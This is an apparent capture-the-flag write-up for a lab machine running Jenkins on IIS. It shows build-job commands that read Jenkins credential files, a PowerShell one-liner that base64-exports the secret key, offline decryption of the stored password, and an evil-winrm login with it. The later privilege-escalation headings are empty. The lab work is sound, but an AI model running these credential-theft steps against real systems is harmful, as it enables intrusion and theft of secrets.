 #Pwned! 
```IP
10.10.11.132
```
# Enumeration

## HTTP 80
Microsoft IIS httpd 10.0
## HTTP 8080
Jetty 9.4.43.v20210629
jenkins

we can create a new account and a project
we can configure it to execute commands when building
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216121014.png?raw=true)
indeed we get a hit to our machine from the target machine, so they can communicate
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216121050.png?raw=true)
File discovery
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217101445.png?raw=true)
We can start an enumeration in order to discover some sensitive files
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217102055.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241218111857.png?raw=true)
If we want to decrypt some credentials we find that it is possible to decrypt them as long as we have the following files:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241218112410.png?raw=true)
https://github.com/tweksteen/jenkins-decrypt/blob/master/decrypt.py
```
type C:\Users\Oliver\AppData\Local\Jenkins\.jenkins\users\admin_17207690984073220035\config.xml
type C:\Users\Oliver\AppData\Local\Jenkins\.jenkins\secrets\master.key
type C:\Users\Oliver\AppData\Local\Jenkins\.jenkins\secrets\hudson.util.Secret
```
We get the following output:
```
Started by timer
Running as SYSTEM
Building in workspace C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test
[test] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins16329493271903675368.bat

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test>type C:\Users\oliver\AppData\Local\Jenkins\.jenkins\users\admin_17207690984073220035\config.xml 
<?xml version='1.1' encoding='UTF-8'?>
<user>
  <version>10</version>
  <id>admin</id>
  <fullName>admin</fullName>
  <properties>
    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@2.6.1">
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash">
        <entry>
          <com.cloudbees.plugins.credentials.domains.Domain>
            <specifications/>
          </com.cloudbees.plugins.credentials.domains.Domain>
          <java.util.concurrent.CopyOnWriteArrayList>
            <com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
              <id>320a60b9-1e5c-4399-8afe-44466c9cde9e</id>
              <description></description>
              <username>oliver</username>
              <password>{AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}</password>
              <usernameSecret>false</usernameSecret>
            </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
          </java.util.concurrent.CopyOnWriteArrayList>
        </entry>
      </domainCredentialsMap>
    </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>
    <hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty plugin="email-ext@2.84">
      <triggers/>
    </hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty>
    <hudson.model.MyViewsProperty>
      <views>
        <hudson.model.AllView>
          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>
          <name>all</name>
          <filterExecutors>false</filterExecutors>
          <filterQueue>false</filterQueue>
          <properties class="hudson.model.View$PropertyList"/>
        </hudson.model.AllView>
      </views>
    </hudson.model.MyViewsProperty>
    <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.3.5">
      <providerId>default</providerId>
    </org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty>
    <hudson.model.PaneStatusProperties>
      <collapsed/>
    </hudson.model.PaneStatusProperties>
    <jenkins.security.seed.UserSeedProperty>
      <seed>ea75b5bd80e4763e</seed>
    </jenkins.security.seed.UserSeedProperty>
    <hudson.search.UserSearchProperty>
      <insensitiveSearch>true</insensitiveSearch>
    </hudson.search.UserSearchProperty>
    <hudson.model.TimeZoneProperty/>
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$q17aCNxgciQt8S246U4ZauOccOY7wlkDih9b/0j4IVjZsdjUNAPoW</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@1.34">
      <emailAddress>admin@object.local</emailAddress>
    </hudson.tasks.Mailer_-UserProperty>
    <jenkins.security.ApiTokenProperty>
      <tokenStore>
        <tokenList/>
      </tokenStore>
    </jenkins.security.ApiTokenProperty>
    <jenkins.security.LastGrantedAuthoritiesProperty>
      <roles>
        <string>authenticated</string>
      </roles>
      <timestamp>1634793332195</timestamp>
    </jenkins.security.LastGrantedAuthoritiesProperty>
  </properties>
</user>
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test>type C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\master.key 
f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test>type C:\Users\Oliver\AppData\Local\Jenkins\.jenkins\secrets\hudson.util.Secret 
�aPTñ‹ìQw3è¨¾®Ã€ƒg·¢dw-J)
uM†’,Ábˆn¨
\îÙ!Ë÷s¢E¹Ä1âªaí;>©×õU‹‡¾Õµÿ™Þ8	îÆ½¿xd$³ÌYU
©k1Î‘}ôAö»Ýv–…í„�¬©•
`K� 8
D�aIâXÒD-Å"´¾¯í‹äGt\ñQå_]Æš”�Ç>J/©«ÎL('ÞìU§ �JÌ“á­|R´7Šè=vP7ˆ:ˆDÕ{ºKI8²Äžû!U�×§“úêXÊ P¿fŠáE4ìLÜ¤^ˆöð‡*áËù‚ZˆuÒ®tdÊ„! 7zßQ"
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test>exit 0 
Finished: SUCCESS
```
In order to get the binary we can convert it to base64
```
powershell.exe -c "$c=[convert]::ToBase64String((Get-Content -path 'c:\Users\oliver\Appdata\local\jenkins\.jenkins\secrets\hudson.util.Secret' -Encoding
byte));Write-Output $c"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241218115035.png?raw=true)
```
gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=
```
Now we create our 3 files:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241218115315.png?raw=true)
And we decode our hudson file:
```
echo files/hudson.util.Secret |base64 -d > files/hudson.util.Secret.decrypted
```
Since the last decrypt tool did not work, we will try the following one:
https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py
```
wget https://raw.githubusercontent.com/gquere/pwn_jenkins/refs/heads/master/offline_decryption/jenkins_offline_decrypt.py
```
```
python jenkins_offline_decrypt.py ../files/master.key ../files/hudson.util.Secret.decrypted ../files/config.xml
```
and we get the password for oliver!
```
c1cdfun_d2434
```
And now we have local access to object.htb with evil-winrm
```
evil-winrm -i 10.10.11.132 -u oliver -p 'c1cdfun_d2434'
```
And we have the user.txt flag:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241218122448.png?raw=true)
# Exploitation

# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz

# Lateral Movement

